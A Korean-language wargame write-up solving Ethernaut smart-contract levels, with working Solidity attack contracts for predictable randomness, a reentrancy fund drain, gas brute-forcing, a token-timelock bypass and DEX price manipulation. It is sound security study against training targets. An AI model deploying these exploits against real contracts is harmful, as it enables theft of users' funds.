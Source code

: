 ## Task01. Ethernaut 문제 풀이 (기초)

<details>
<summary> coin Flip </summary>

### 목표 : 동전 뒤집기 10번 성공하기

#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

    uint256 public consecutiveWins; // 몇 번 맞췄는지 세주는 변수 같음
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
    consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1)); // 랜덤값 생성

    if (lastHash == blockValue) { // 이전 랜덤값이랑 위에서 만들어진 랜덤값이랑 같으면 revert
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false; // 앞뒷면 확인하는 부분

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
    }
}
```

#### blockhash
- random number를 생성할 때 사용하는 함수
- 입력으로 block Number가 들어감  → block Number 번째의 블록의 해시값 return
→ blockNumber부터 최근 256개의 블록데이터를 이용하여 hash 결과를 만듦
- blockNumber가 최근 256개의 블록이 아니라면?
    
    → 랜덤값이 변하지 않고 고정된 값이 되어버림
    
- 같은 블록 number를 입력으로 주면 같은 값을 return
    
    → 이거 이용하면 될 것 같은데 미리 true/false 알아내서 그걸 인자로 넘겨주면 되지 않을까?


#### attack 컨트랙트
- FACTOR나 계산하는 건 그냥 CoinFlip이랑 똑같이 하고, side 값만 filp 함수 인자로 넣어서 호출하도록 만들어주면 될 것 같음
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface CoinFlip{
    function flip(bool _guess) external returns (bool);
    }
    
    contract Attack {
        CoinFlip public coinflip;
    
        constructor() {
            coinflip = CoinFlip(0xe8A26742AdC4843f876cBD4D7af0d4DB0f49fa5B);
        }
    
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        
        function getResult() public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number - 1));
            
            if (lastHash == blockValue) {
                revert();
            }
            
            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            
            coinflip.flip(side);
        }
    }
    ```

#### Deploy
    
![Untitled](https://file.notion.so/f/s/e27154b0-92d3-4946-9cf9-3505e00d3594/Untitled.png?id=b8d1c79c-af73-4afc-8dbb-c04c702a3d1c&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=P0kpIsYSBgwaeyXGZFdSYVUSfruBif503EGWrPyUCbo&downloadName=Untitled.png)

    
#### 제대로 동작하는지 확인
    
![Untitled](https://file.notion.so/f/s/a09fc5ed-c596-4ad5-b268-5102c1d7ae2f/Untitled.png?id=d750b557-19cd-4d08-afc7-0efe50024602&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=b4Zp3gJK3AUr0lyEHKHm0WcB4aI1SUfaM_ILyIBwarM&downloadName=Untitled.png)
    
- 여기 words가 consecutiveWins 값 의미하는 것 같은데 일단 여러 번 보내보겠음
    
    ![Untitled](https://file.notion.so/f/s/eadd3ec4-d22b-41a5-a120-998174a9b822/Untitled.png?id=f70f82a9-4daa-4ed0-9fb3-de9362ae0e13&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=yiKQ6gpVUHeJX9BP25kxMg3_yyX9PIQLF7ywVxazr9M&downloadName=Untitled.png)
    
- 이렇게 10번 될 때까지 반복
        
    ![Untitled](https://file.notion.so/f/s/a8f7f273-3102-4347-8b15-b6d34e84507a/Untitled.png?id=dd955151-76f1-473f-b9bd-f0aedd9ef837&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=pZ7zVvlAOaxic88HsoVrk8AsdVOpx_humV6jCIZytM4&downloadName=Untitled.png)
        

#### submit

![Untitled](https://file.notion.so/f/s/4cce1e65-9c8a-4014-9312-4f95e68a48b2/Untitled.png?id=c9cfb44f-b2fe-4b26-b4f1-95fda863d985&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=B__k3Ale-bbZ5h6KwEHNsHjPyLqiBmU7ewpN14AMLXo&downloadName=Untitled.png)
    
</details>

<details>
<summary> Re-entrancy </summary>

### 목표 : target contract(Reentrace)로부터 모든 funds를 빼앗아오는 것


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
    
    using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
    }

    function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value:_amount}("");
        if(result) {
        _amount;
        }
        balances[msg.sender] -= _amount;
    }
    }

    receive() external payable {}
}
```
    
- donate → _to의 balance를 msg.value만큼 더해줌
- balanceOf → _who의 balance가 얼마인지 return해줌
- withdraw → msg.sender가 _amount만큼 돈 빼갈 수 있음
- receive → ETH 받아야 함


#### Re-Entrancy (재진입 공격)
- 외부 컨트랙트에서 타겟 컨트랙트의 취약한 함수를 호출하고, 트랜잭션이 끝나기 전 다시 취약한 함수를 호출하여 재진입 할 수 있게 됨
- 컨트랙트에서 컨트랙트로 이더 보낼 때
    - 이유 : 컨트랙트에서 이더 받을 때는 fallback 함수가 필요함 → receive 함수를 통한 재진입


#### Re-Entrancy를 이용한 공격 시나리오
- Attack 컨트랙트 생성
    
    → Attack contract의 receive 함수에 withdraw를 호출하는 내용 포함
    
- Attack contract에서 target contract로 1이더 보냄
- withdraw 함수 호출 
→ Attack 컨트랙트는 Bank 컨트랙트에서 1이더만큼 withdraw 가능
→ 첫 번째 if문 통과
- `msg.sender.call{value:_amount}(””);`로 msg.sender(Attack 컨트랙트)한테 _amount만큼 송금
- Attack 컨트랙트의 receive함수 실행
- 다시 withdraw 호출
- 이 때, 인출해간 값을 반영해주는 `balance[msg.sender] -= _amount;`가 아직 실행되지 않은 상태이기 때문에 첫 번째 if문을 통과할 수 있음
- 계속 반복해서 이더 빼가면 target contract의 모든 balance를 빼갈 수 있을 것!


#### Attack 컨트랙트
    
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface Reentrance{
    function donate(address _to) payable external;
    function withdraw(uint _amount) external;
}

contract Attack{
    Reentrance public target;

    constructor() public payable{
        target = Reentrance(payable(0x180b3438a1624F77A497ee681C7e22d0Ffdc0aC2)); //인스턴스 주소
    }

    function send() public payable {
        uint256 values = address(this).balance;
        target.donate{value:values}(address(this));
        target.withdraw(values);
    }

    // function send() public payable {
    //     target.donate{value:0.001 ether}(address(this));
    //     target.withdraw(0.001 ether);
    // }
    
    receive() external payable{
        target.withdraw(0.001 ether);
    }
}
```
    
- polygonscan에 인스턴스 주소 입력해서 확인해보면 문제 컨트랙트에 0.001 MATIC이 있는 것을 확인할 수 있음
    
    ![Untitled](https://file.notion.so/f/s/48afdb75-ff73-4487-88f5-9f6e3762d0be/Untitled.png?id=dd08b639-81cd-4e7f-be04-f2919b300178&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=kN7YF3-OxwaCtU3MJQW8xlneZxEPm1nUEk7TGWf6FuY&downloadName=Untitled.png)
    
- Attack 컨트랙트에 0.001 ETH 보내주고 send 함수를 호출하면 될 것 같음!
    
    ![Untitled](https://file.notion.so/f/s/ae7382bf-e118-4883-b917-a096472998d9/Untitled.png?id=a228ab0d-1e31-4369-8a04-ae13a40c9fb2&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=lyNCTAWbm_Ng6iKL98MVO41IZdaM_CWFEc8u5mwQZvQ&downloadName=Untitled.png)
    
    ![Untitled](https://file.notion.so/f/s/b93e6ae6-2998-4d99-b37a-5e879e2370ee/Untitled.png?id=c016af88-881b-4414-bf55-27e38a5206b6&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=FkcaouisDw1KtcAlQEx3D6p0RViEJLQ4bEp0NnfGp9w&downloadName=Untitled.png)
    
- 제대로 실행됐는지 확인하기
    
    ![Untitled](https://file.notion.so/f/s/1fd73d54-6ae0-4843-b43a-dc8c7206fd8f/Untitled.png?id=c94ba208-db72-4231-a3db-8eeb8f5b4814&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=1EwuzYx7opgokFtC-m2V6_jsDsy2GfGsnHvpSF90MjA&downloadName=Untitled.png)
    
    ![Untitled](https://file.notion.so/f/s/2a36d59b-a37b-41ec-89c3-e92c6316df5f/Untitled.png?id=584b6dc3-7482-4344-b8df-e493be9cb2b6&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=0NCJ-MbfwW9TJZ7ujYgiHQPUASEx31e4EBWBAhschFE&downloadName=Untitled.png)
    

#### submit
    
![Untitled](https://file.notion.so/f/s/4bc3b9d1-af46-463e-8216-14805b446225/Untitled.png?id=63e0078e-30f6-4d3b-b9d0-82a70f4238bb&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=1enBTWhydrALyGJb-F6WpiBNCi9QV2R5sBAVo84mHyI&downloadName=Untitled.png)

![Untitled](https://file.notion.so/f/s/ec70c91c-1e09-4660-90c8-ba4a3162321f/Untitled.png?id=2128f440-75e5-4eaa-8240-5857f65f0ef0&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693404000000&signature=PMcXMIjHaZZ1duR3VSYXn9P9Q6SokthYCauMuucbo-M&downloadName=Untitled.png)
    
</details>

<details>
<summary> GateKeeper One </summary>

### 목표 : gatekeeper 통과해서 Level 통과하기


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

    address public entrant;

    modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
    }

    modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
    }
}
```
    

#### gateOne
- msg.sender가 tx.origin이면 안됨! → attack 컨트랙트 만들어서 GatekeeperOne을 호출하게끔 만들어주기


#### gateTwo
- `gasleft() returns (uint256)` : 남은 가스량
- 남은 가스량을 8191로 나눈 나머지가 0


#### gateThree
- uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)
- uint32(uint64(_gateKey)) != uint64(_gateKey)
- uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))
- _gateKey 값을 뭐로 해야하는지를 찾아야 되는데 일단 이 각각의 값들이 뭘 의미하는지 알아야 될 것 같음 ...
            
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Attack{
        bytes8 gateKey;
    
        constructor(){
            gateKey = 0xabcdef1234567890;
        }
    
        function func1() public view returns (bytes8) {
            return bytes8(gateKey);
        }
        function func2() public view returns (uint32) {
            return uint32(uint64(gateKey));
        }
        function func3() public view returns (uint16) {
            return uint16(uint64(gateKey));
        }
        function func4() public view returns (uint64) {
            return uint64(gateKey);
        }
        function func5() public view returns (uint16) {
            return uint16(uint160(tx.origin));
        }
        function func6() public view returns (uint160){
            return uint160(tx.origin);
        }
    }
    ```
            
    ![Untitled](https://file.notion.so/f/s/00fe9b61-bdcd-4be5-9633-0e5771f48461/Untitled.png?id=f4353b7e-6e3a-4e34-95bb-eb5b4ce81300&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=AuBaxA29gJm4l_gJS7fBdR5kZ-CU8DfYFlqqM8h-Dkk&downloadName=Untitled.png)
    
    - gateKey : 0xabcdef1234567890
    - uint32(uint64(gateKey)) : 0x34567890 → 하위 4bytes
    - uint16(uint64(gateKey)) : 0x7890 → 하위 2bytes
    - uint64(gateKey) : 0xabcdef1234567890 → gateKey
    - uint16(uint160(tx.origin)) : 0xc4c6 → 지갑 주소의 마지막 2bytes
    - uint160(tx.origin) : 0x4f26bb12173916e4459921d504a02b222eabc4c6
- 이 값들을 만족하는 gateKey 만들기
    - 마지막 2bytes는 0xc4c6이 되어야 함
    - uint32(uint64(gateKey)) == uint64(gateKey)
        
        → 0x04a02b222eabc4c6
        
    - uint32(uint64(gateKey)) ≠ uint64(gateKey)
        
        → 0x04a02b220000c4c6
                
    - 남은 가스양만 맞춰주면 되는데 call{gas:~}로 가스비 하드코딩해서 보내면 됨
        - 근데 중요한건, 이 컨트랙트를 실행시켰을 때 가스비가 얼만큼 소비되는지를 알 수가 없음 ..
        - for문으로 call{gas:~} 여기에 가스값 무차별로 대입해서 풀면?
        - 60000 + i 로 설정해놓고 i를 0~8191로 해서 for문 돌려줌


#### Attack 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

    address public entrant;

    modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
    }

    modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
    }
}

contract Attacker{
    GatekeeperOne public gatekeeperone;
    constructor() public {
        gatekeeperone = GatekeeperOne(0x89b000Ec62297c8E767F83d50523C6A48E36682D); //인스턴스 주소
    }

    function Attack() public {
        bytes8 _gateKey = 0x04a02b220000c4c6;
        for(uint256 i=0; i<300;i++){
            (bool sent, ) = address(gatekeeperone).call{gas:i+70000}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if(sent) {
                break;
            }
        }
    }
}
```
        
- await 했는데 자꾸 값이 안나와서 at address로 직접 확인해봄
    
    ![Untitled](https://file.notion.so/f/s/04f5b924-e39c-4e93-9a88-efadd0550e7b/Untitled.png?id=7a8b0613-4f44-4ea6-a9a7-ed10fedbac18&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=YFZqoy4Y3GTVxMJA7jX0SLZKAM6HlEK5JXsr3eEU0xo&downloadName=Untitled.png)
    
    → 내 지갑 주소가 잘 들어있음!!
    

#### submit

![Untitled](https://file.notion.so/f/s/23d593e5-4600-4330-a415-9a1397d7c420/Untitled.png?id=da79513b-a8fc-4634-8872-822b4bce9fb3&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=bDClwREYfHPxUCBDnjGLZkK2mh5_Fubl7bdnWNO3Xbs&downloadName=Untitled.png)
        

</details>

<details> 
<summary> NaughtCoin </summary>

### 목표 : locked 되어 있는 token의 balance를 0으로 만들기


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

    contract NaughtCoin is ERC20 {

    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) 
    ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
    }
    
    function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
    if (msg.sender == player) {
        require(block.timestamp > timeLock);
        _;
    } else {
        _;
    }
    } 
}
```
    
- constructor
    - NaughtCoin 생성
    - 1000000 * (10**uint256(decimals()))만큼 mint
- transfer
    - to한테 value만큼 보냄
    - modifier lockTokens → block.timestamp가 timeLock보다 작거나 같으면 revert

- 이더를 0으로 만들려면 player든 누구한테든 보내야되는데 lock이 걸려 있음
- ERC20 인터페이스 정리
    - totalSupply() : 토큰의 총 발행량
    - balanceOf(address account) : account의 토큰 보유량
    - transfer(address recipient, uint amount) : recipient한테 amount만큼 토큰 전송
    - allowance(address owner, address spender) : owner가 spender한테 얼만큼 위임했는지
    - approve(address spender, uint amount) : spender한테 amount만큼 위임
    - transferFrom(address spender, address recipient, uint amount) : spender가 recipient한테 amount만큼 토큰 전송 (권한 위임 / approve 되어 있어야 됨)
- lock되어 있으면 approve해주고 transferFrom으로 보내는 건 안되나..?
    - 근데 lock은 transfer에 걸려있는거고 transferFrom은 상관 없지 않나?
    - 다른 계정한테 approve해주고 transferFrom으로 보내주면 될 것 같음!
- amount 확인하기 → 1000000000000000000000000
    
    ![Untitled](https://file.notion.so/f/s/dfd3fde3-11c3-445e-a291-49baf6d7ed50/Untitled.png?id=daac33af-c646-4d34-b332-0c4217457156&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=BnBUVnY8_UWB_U72dUPzVvSRyDoAVzXkjWcynNqACC0&downloadName=Untitled.png)
    
    - mint된 돈을 전부 player가 가지고 있음


#### Attack 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface NaughtCoin{
    function approve(address, uint256) external returns (bool);
    function transferFrom(address, address, uint256) external returns (bool);
}

contract Attack{
    NaughtCoin public naughtcoin;

    constructor(){
    naughtcoin = NaughtCoin(0xB1A2B791189e71c732C5C4e289e59eeBE8a1325B);
    }

    function transfer() public payable {
    address player = 0x4F26BB12173916e4459921d504a02B222eaBC4C6;
    address addr = 0x822cd1f1A9EE3128033310B81B1194B6A79aB5E3; //다른 메타마스크 계정 주소
    uint256 amount = 1000000000000000000000000;
        //uint256 amount = naughtcoin.balanceOf(player);

    naughtcoin.approve(player, amount);
    naughtcoin.transferFrom(player, addr, amount);
    }
}
```
→ 안됨 ㅜ
    

#### console에서 풀기
- 값 설정
    
    ![Untitled](https://file.notion.so/f/s/f0331ff1-7c08-46ae-ac04-b0c60c3c412b/Untitled.png?id=ef27a287-c8a7-4403-a49c-d178dd463bf3&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=YdyeTOaUod4ynDesU6hJWYNE8QgF6gWbnqsqX-88XsM&downloadName=Untitled.png)
    
- approve로 player한테 amount만큼 권한 주기
    
    ![Untitled](https://file.notion.so/f/s/0ebed975-4c38-4c85-bb59-4f1449736a47/Untitled.png?id=817d335b-01e5-4697-9976-307acb2ebf94&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=R9aTuJflfhGY8kCq1tuf2z7M7-fsFWFMFqGYZD3dxdE&downloadName=Untitled.png)
    
- transferFrom으로 addr로 amount 보내기
    
    ![Untitled](https://file.notion.so/f/s/9be921d4-bdee-462c-aed4-8cb75060b2e2/Untitled.png?id=4d32e0c3-8e9b-4ebf-9b94-a53e91403c05&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=Pe6UEFEEiK3YLx1Nhs6UyzWi7a3UHeHgFOX2ZHjL8qs&downloadName=Untitled.png)
    
    → 실패했는데 player의 balance를 확인해보니까 0으로 바껴있음 ..
        

#### submit
    
![Untitled](https://file.notion.so/f/s/10935302-0074-4fca-b682-efc979a43285/Untitled.png?id=b49090ae-b5f3-4c62-8c5a-8b52eaff1bb8&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=Dryy8WPcpFUtlJgFcga5qX4JwRPiqMLIwdZZqcZCFGw&downloadName=Untitled.png)
    
</details>

<br>


## Task02 : Ethernaut 문제 풀이 (심화)

<details>
<summary> DEX </summary>

### 목표 : DEX Contract에서 가격 조작해서 토큰 1이나 2 빼오기


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
    address public token1;
    address public token2;
    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
    }
    
    function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }
    
    function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;
    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
    }
}
```

    
#### DEX
- setTokens → token1이랑 token2 주소 설정 (owner만 할 수 있음)
- addLiquidity → 유동성 공급 → amount만큼 token_address(토큰 종류)를 dex로 보내기
- swap → 토큰 교환 → from을 to로 amount만큼 교환
- getSwapPrice → amount * 받을 토큰 총 양 / 보낼 토큰의 양
- approve → msg.sender가 spender한테 amount만큼 권한 줌
- balanceOf → acoount가 token을 얼만큼 가지고 있는지 알려줌
- SwappableToken
- approve → owner가 spender한테 amount만큼 권한 줌


- 지금 해야하는 건 토큰 1이나 토큰 2를 0으로 만드는 걸 해야 됨
- player는 토큰을 각각 10개씩 가지고 있고, dex에는 각각 100개씩 있음
- 밑에 힌트 같은 거 보면 price of the token calculated가 있는 걸로 봐서는 getSwapPrice하는 부분을 이용하면 될 것 같음
    - 생각해볼 수 있는게 소수점으로 표현 못하는 거랑 둘 중에 한 토큰의 개수를 0개로 만들어주는 방법..?
    - 근데 계속 스왑하다보면 하나 0 될 것 같긴한ㄷ ㅔ..


#### 스왑
    - swap을 6~7번정도 하면 토큰이 사라질 것 같음
    
    ![Untitled](https://file.notion.so/f/s/e584f534-02f6-4fa9-89a0-c74273f79b68/Untitled.png?id=5efc2e15-035c-4233-bbaf-a7d1a6e119dd&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=gDRVris8A_X292ZGIgCFcjtpaTxSNrDugLn3hsXwIoA&downloadName=Untitled.png)


#### Attack 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Dex{
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address, address, uint) external;
    function approve(address, uint) external;
}

contract Attack{
    Dex public dex;

    constructor(){
    dex = Dex(0x81a587d6444AC11fdAE2063df83015f2c5e1983F);
    }

    function swap() public {
        dex.approve(address(dex), 500);
        address token1 = dex.token1();
        address token2 = dex.token2();

        dex.swap(token1, token2, 10);
        dex.swap(token2, token1, 20);
        dex.swap(token1, token2, 24);
        dex.swap(token2, token1, 30);
        dex.swap(token1, token2, 41);
        dex.swap(token2, token1, 45);
    }
}
```
→ 이것두 안됨


#### console로 풀어보기
- 문제 컨트랙트에 권한 주기
    
    ![Untitled](https://file.notion.so/f/s/462005d6-effd-4ad1-a5e9-69039b810c36/Untitled.png?id=ac5954d4-5e95-4ca4-ad89-2b28ed4bc669&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=ZfTQZulgLtTIOy0DgbJOW9WJhaRaC-zdzYWECne2p5w&downloadName=Untitled.png)
    
- token1, token2 설정해주기
    
    ![Untitled](https://file.notion.so/f/s/4c1ccf94-e498-48e9-b991-db338c3696fd/Untitled.png?id=d0b98a76-e9b1-47e5-a0ae-b25ed72ce16c&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=dztUMFfE1_pUQUn0_1b_qUfNXZVs2SnnFP2zm3NJUv4&downloadName=Untitled.png)
    
- swap
    - attack 컨트랙트에 있는대로 똑같이 해줌
        
        ![Untitled](https://file.notion.so/f/s/70009c80-8c23-4310-a427-978e40e49eff/Untitled.png?id=4b1f193c-c863-404a-b47f-e264267ee028&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=BSqBSOF87W6BJ3B5mKF4EtwYq7HHAzZJMVja-PvdDeg&downloadName=Untitled.png)
        
        ![Untitled](https://file.notion.so/f/s/45b66b00-4b95-4c5b-9e70-2bc781c9ce24/Untitled.png?id=cf7265c2-9eb7-45df-be0a-d961611859de&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=lGN8evgi9YoDPYHsg8cyJwxep883j7ZNxMJHxitT-Zo&downloadName=Untitled.png)
        
        → 6번 스왑했을 때 t1의 토큰양이 0인 것을 확인함


#### submit
    
![Untitled](https://file.notion.so/f/s/615d39b9-976d-40c3-abca-9f6f8f45b8d5/Untitled.png?id=a9c428d7-4cf0-4678-8fb5-602c146b9068&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=RL9LWLQ76VHM9IWascSKmYcFgpfmfkuMDbhIx0czlJo&downloadName=Untitled.png)
    

</details>

<details>
<summary> DEX Two </summary>

### 목표 : DEX랑 똑같은데 token을 두 개 다 모두 소진해야 함


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
    address public token1;
    address public token2;
    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
    }

    function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }
    
    function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    } 

    function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;
    constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
    }
}
```
    
- 달라진 부분
    - dex.swap에는 require문 있었는데 dex2.swap에서는 사라짐
    
    `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`
    
    - 나머지는 다 똑같음!
- from이랑 to가 token1, token2인지 확인을 안하는 거?
    
